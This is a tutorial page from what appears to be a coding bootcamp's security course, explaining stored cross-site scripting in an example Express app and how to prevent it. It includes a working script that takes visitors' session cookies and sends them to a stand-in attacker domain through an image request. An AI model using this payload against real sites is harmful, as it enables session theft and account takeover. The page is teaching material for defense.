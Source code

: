 # 9.2.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```javascript
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

![](../../.gitbook/assets/xss-form.png)

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

![](../../.gitbook/assets/xss-alert.png)

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
  var allCookies = document.cookie; // don't do an AJAX request in case there
  are CORS issues // create an image tag var imgEl =
  document.createElement('img'); // settting the img src causes the browser to
  try and request from this domain imgEl.src =
  'http://my-bad-domain.com?'+allCookies;
</script>
```

Compact Version:

```javascript
<script>
  var allCookies = document.cookie;var imgEl =
  document.createElement('img');imgEl.src =
  'http://my-bad-domain.com?'+allCookies;
</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.

![](../../.gitbook/assets/xss-cookie.png)

### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

Note that string sanitization so that it is guaranteed not to contain JavaScript is a very hard problem to solve. See this example here: [https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp](https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp)

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js\#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.

